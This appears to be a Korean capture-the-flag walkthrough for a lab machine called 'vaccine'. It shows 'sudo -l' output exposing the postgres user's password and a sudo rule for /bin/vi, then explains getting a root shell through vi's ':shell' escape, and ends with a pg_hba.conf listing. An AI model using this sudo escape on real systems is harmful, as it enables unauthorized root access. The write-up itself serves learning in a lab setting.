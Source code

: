&#10071; https://payatu.com/guide-linux-privilege-escalation - Linux 권한 상승을 할 수 있는 방법 6가지 알려줌.

**4. Exploiting SUDO rights/user**를 이용했다.

``` bash
postgres@vaccine:/var/lib/postgresql/11/main$ sudo -l
sudo -l
[sudo] password for postgres: P@s5w0rd!

Matching Defaults entries for postgres on vaccine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
postgres@vaccine:/var/lib/postgresql/11/main$ cat pg_bha.conf 

```

> $ **sudo -l** – Prints the commands which we are allowed to run as SUDO

`/bin/vi`와 `/etc/postgresql/11/main/pg_hba.conf` 는 `sudo`로 실행시킬 수 있다. 그러면 

```bash
postgres@vaccine:/var/lib/postgresql/11/main$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

를 해주면 `SUDO`로 vi 에디터가 켜진다. 여기서 그냥 `vi`가 아니라 `/bin/vi`를 해준 이유는 `PATH`환경변수를 보면 알 수 있다.

``` BASH
postgres@vaccine:~/11/main$ find / -name "vi" 2>/dev/null
/etc/alternatives/vi
/var/lib/dpkg/alternatives/vi
/usr/share/vim/vim81/lang/vi
/usr/share/locale/vi
/usr/bin/vi
/snap/core/7917/usr/bin/vi
/snap/core/7917/usr/share/locale/vi

postgres@vaccine:~/11/main$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

그냥 `vi`를 하게 되면 `/usr/bin/vi`를 사용하게 되어 `SUDO`권한으로 실행할 수가 없다.

`SUDO`권한으로 vi 에디터를 실행한 다음 쉘을 따야 한다.

&#10071;https://www.joinc.co.kr/w/Site/Vim/Documents/Tip/ExternalCommand - Vim으로 외부명령어 실행하기

`:shell`이나 `:sh`을 쓰면 된다고 한다.


``` 
# DO NOT DISABLE!
# If you change this first entry you will need to make sure that the
# database superuser can access the database using some other method.
# Noninteractive access to all databases is required during automatic
# maintenance (custom daily cronjobs, replication, and similar tasks).
#
# Database administrative login by Unix domain socket

# TYPE  DATABASE        USER            ADDRESS                 METHOD

local   all             postgres                                ident
# "local" is for Unix domain socket connections only
local   all             all                                     peer
# IPv4 local connections:
host    all             all             127.0.0.1/32            md5
# IPv6 local connections:
host    all             all             ::1/128                 md5
# Allow replication connections from localhost, by a user with the
```